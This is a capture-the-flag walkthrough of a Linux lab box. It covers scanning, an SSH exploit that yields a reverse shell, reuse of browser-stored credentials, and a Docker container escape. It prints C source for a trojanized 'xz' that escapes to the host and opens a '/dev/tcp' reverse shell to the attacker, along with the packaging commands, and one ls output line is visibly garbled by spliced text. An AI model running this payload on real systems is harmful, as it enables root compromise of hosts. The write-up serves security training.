







# DoubleTake

## Box Info

<table>
<tr>
<td style="width:40%;">
</img>
</td>
<td style="width:60%;">


<table>
<tr> <td><strong>Release Date</strong></td><td>  2026-11-12 </td></tr>
<tr> <td><strong>OS</strong></td><td>  Linux </td></tr>
<tr> <td><strong>Difficulty (Category)</strong></td><td>  Easy </td></tr>
<tr> <td><strong>User Difficulty Rating</strong></td><td>  </img>  </td></tr>
<tr> <td><strong>Star Rating</strong></td><td>  ★★★★  (4.2 / 5) </td></tr>
<tr> <td><strong>Creator</strong></td><td>  <a href src="https://app.hackthebox.com/users/114053">TheCyberGeek</a> </td></tr>

</table>
</tr>
</table>

**Please note the following abbreviations:**
LHOST - attacking box IP
LPORT - local port
RHOST - target IP
RPORT - target port

## Enumeration
Initial enumeration of the target starts with nmap.

### Nmap / Port Scan

```bash
sudo nmap -T4 -vv -Pn -p- RHOST 
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 62
80/tcp open  http    syn-ack ttl 63

```

I choose to run `-vv` in case interesting ports are open. In that case, I can continue enumeration while I wait for the rest of the scan to complete.

Then, I run detailed scans on the open ports, plus a few closed ports to assist in OS detection.

```
sudo nmap -T4 -vv -Pn -sCV -O -p RPORTs RHOST

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 10.6 (protocol 2.0)
80/tcp open  http    syn-ack ttl 63 nginx 1.24.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET
| http-auth: 
| HTTP/1.1 401 UNAUTHORIZED\x0D
|_  Basic realm=Zentara
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
While the second nmap is running, I add the target to `/etc/hosts` and navigate there with my browser (http://doubletake.htb).

I am greeted with a basic authorization prompt and no indication of a password. Viewing the script of the webpage isn't productive and the authentication resists a quick check for script and SQL injection. I will come back to this later.
{: style="display: block; margin: 0 auto;" }

Looking over the detailed nmap scan, Zentara is mentioned. Google dorking doesn't provide anything useful.

A search for OpenSSH 10.6 vulns turn up CVE-2026-123158 - SSHOLE.

## Foothold

I search for and find an online GitHub Poc repository and confirm the box is vulnerable. I fire up Penelopy and trigger a reverse shell.

```
-> Doubletake python3 test.py RHOST LHOST LPORT 
python3[-] attempt 1: denied
[+] attempt 2: authenticated
[+] sent                                                                                                                                                                                                                     
```
I catch the shell in penelope and run a linux enumeration script. Nothing particularly interesting shows up. 

```
penelope
➜  ~ penelope
[+] Listening for reverse shells on 0.0.0.0:LPORT ->  LHOST
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] [New Reverse Shell] => 7f906e0ee8ec RHSOT Linux-x86_64 👤 alpine(1000) 😍️ Sessio  n ID <1>
[-] Cannot deploy agent with remote Python. Select an action below:

  1) Upload https://github.com/astral-sh/python-build-standalone/releases/download/20260610/cpython-3.13.14+20260610-x86_64-unknown-linux-musl-install_only_stripped.tar.gz
  2) Upload local Standalone Python binary
  3) Specify remote Standalone Python binary path
  4) None of the above

[?] Select action: 1
[•] ⤓ Downloading URL: https://github.com/astral-sh/python-build-standalone/releases/download/20260610/cpython-3.13.14+20260610-x86_64-unknown-linux-musl-install_only_stripped.tar.gz
 ⤷ [########################################] 100% (26.4 MBytes/26.4 MBytes) | 2.7 MBytes/s | Elapsed 0:00:09
[•] ⇥ Uploading to /var/tmp
 ⤷ [########################################] 100% (35.0 MBytes/35.0 MBytes) | 100.0 KBytes/s | Elapsed 0:04:42
[+] Uploaded /var/tmp/cpython-3.13.14+20260610-x86_64-unknown-linux-musl-install_only_stripped.tar.gz

[+] ⭐ Agent deployed via /tmp/tmp.GHhIan/python/bin/python3
[+] Interacting with session [1] • PTY • Menu key F12 ⇐
[+] Session log: /home/kali/.penelope/sessions/7f906e0ee8ec~10.129.106.80-Linux-x86_64/2026_11_20-14_47_16-748-alpine(1000).log
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
~ $ pwd
/home/alpine
```
Nothing particularly interesting was apparent in the enumeration script results so I began manually crawling the system, starting with the alpine home directory.

## User Flag
Searching via ls leaves hidden files hidden, so I start with ls -la.

```
~ $ ls -la
total 28
drwxr-sr-x    1 alpine   alpine        4096 Nov 20 21:03 .
drwxr-xr-x    1 root     root          4096 Nov 10 20:15 ..
-rw-------    1 alpin106.8 LHOST LPORT 
python3[-] attempt 1: deniede   alpine         624 Nov 20 21:17 .ash_history
drwxr-sr-x    3 alpine   alpine        4096 Nov 10 20:15 .mozilla
<snip>
```
The hidden folder .mozilla stands out. Sometimes passwords are stored in browser files. ~/.mozilla/zentara.default has some interesting files, notably logins.json. I cat the file and find a base64 encoded user and password. I decode them in my shell.

```
# The % are an artifact from conversion and can be ignored.
➜  Doubletake echo "Q29ycmVjdEhvcnNlQmF0dGVyeVN0YXBsZQ==" >> base64pw && base64 -d base64pw
C<REDACTED>e%
➜  Doubletake echo "Ym9i" >> base64name && base64 -d base64name
bob%
➜  Doubletake

```
This is in the firefox browser, and earlier I encountered a basic auth login form. The credentials log me in to a Zentara platform. I browse the various chats and find various operational discussions. None of them seem particularly useful. I navigate to Status at the bottom left of the page.

{: style="display: block; margin: 0 auto;" }

This gets my attention. There is information about a docker container, and that it is running Docker 29.5.0. A search for this version finds several CVEs. I start with the most interesting one, `CVE-2026-41567'. This CVE is described as:
```
  Moby is an open source container framework. In versions prior to 29.5.1 and in moby/moby v2 prior to v2.0.0-beta.14, when a compressed archive is uploaded to a container via `PUT /containers/{id}/archive` or piped through `docker cp -`, the daemon resolves decompression binaries (such as `xz` or `unpigz`) from the container's filesystem rather than the host's due to incorrect ordering of operations. A malicious container image containing a trojanized decompression binary can achieve arbitrary code execution with full daemon privileges, including host root UID and unrestricted capabilities, when a user uploads a compressed (xz or gzip) archive into that container. This issue is fixed in Docker Engine 29.5.1 and moby/moby v2.0.0-beta.14. Workarounds include only running containers from trusted images, using authorization plugins to restrict access to the `PUT /containers/{id}/archive` endpoint, and avoiding piping compressed archives into containers created from untrusted images...

```
The vulnerability creates a trust-boundary failure between the container filesystem and the host's Docker daemon. By causing the daemon to invoke a container-controlled decompression executable, an attacker can execute malicious code with the privileges of the daemon process. This results in privilege escalation when the attacker initially has lower privileges. Because the Docker daemon commonly runs as root, successful exploitation can grant root-level access to the host.

This sounds particularly useful, as it offers a potential path to a root shell on the target. The next question is how to inject and trigger the vulnerable operation. Conveniently, the Zentara platform has an upload form that may provide a way to do so.

{: style="display: block; margin: 0 auto;" }

The `Getting started guide` and `REST API scaffolding with JWT`in the chat suggests the target is vulnerable to the xz formatted attack.


{: style="display: block; margin: 0 auto;" }

{: style="display: block; margin: 0 auto;" }

Despite this very useful information for the root flag (I will come back to this shortly), I don't find anything useful for getting a user shell. Password reuse is a common vulnerability, so I decide to try bob's credentials against ssh.

```

➜  Doubletake ssh bob@RHOST
bob@10.129.106.80's password:
Welcome to Alpine!

The Alpine Wiki contains a large amount of how-to guides and general
information about administrating Alpine systems.
See <https://wiki.alpinelinux.org/>.

You can setup the system with the command: setup-alpine

You may change this message by editing /etc/motd.

7f906e0ee8ec:~$

```

It is a success, and I check for the user flag. I suspect it is in bob's home directory because he is the only standard user with a home directory.

```

7f906e0ee8ec:~$ cat ~/user.txt
3<REDACTED>5
7f906e0ee8ec:~$

```

Having obtained the user flag, I turn my attention to the root flag.

## Root Flag
Normally I would re-run my linux enumeration script after getting a shell as a new user. However, I already have a strong lead to get to root. Since I already have this information, I choose to act on it and see if it is successful. If I find that the docker privesc path is patched, I can always come back here and run my enumeration script.

I search for a PoC for `CVE-2026-41567` and do not find any that would work well for this context. However, the concept becomes apparent.
1) Create a malicious executable (C for being self-contained on the target)
2) Compress it with malicious paths so C program is executed
3) Trigger the payload

Implemented:

```{: style="display: block; margin: 0 auto;" }
➜  Doubletake cat > xz.c << 'EOF'
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/mount.h>

int main(int argc, char *argv[]) {
    mount("proc", "/proc", "proc", 0, NULL);
    chroot("/proc/1/root");
    chdir("/");
    execl("/bin/bash", "bash", "-c",
        "bash -i >& /dev/tcp/LHOST/RPORT 0>&1", NULL);
    return 1;
}
EOF

gcc -static -o xz xz.c
➜  Doubletake mkdir -p pkg/usr/bin
cp xz pkg/usr/bin/xz
cd pkg && tar cf ../plant.tar usr/bin/xz && cd ..
➜  Doubletake 
```

Now that I have the files, I go back to the user interface. I saw a `Deploy` tab and I want to try that route first.

I upload the malicious code first, then the trigger.

{: style="display: block; margin: 0 auto;" }

{: style="display: block; margin: 0 auto;" }

{: style="display: block; margin: 0 auto;" }

From the UI, it seems like it worked. I check Penelope and, sure enough, I have a shell as root.

```
(Penelope)─(Session [1])> sessions

➤  7f906e0ee8ec 10.129.106.80 Linux-x86_64
[+] [New Reverse Shell] => doubletake 10.129.106.80 Linux-x86_64 👤 root(0) 😍️ Session ID <2>
(Penelope)─(Session [1])> interact 2
[+] ⭐ Agent deployed via /usr/bin/python3
[+] Interacting with session [2] • PTY • Menu key F12 ⇐
[+] Session log: /home/kali/.penelope/sessions/doubletake~10.129.106.80-Linux-x86_64/2026_11_20-20_55_32-594-root(0).log
──────────────────────────────────────────────────────────────────────────────────────────────

```

The root flag is kept at /root/root.txt so I `cat` that file. Sure enough, I have the root flag.

```
root@doubletake:/# cat /root/root.txt
c<REDACTED>d
```
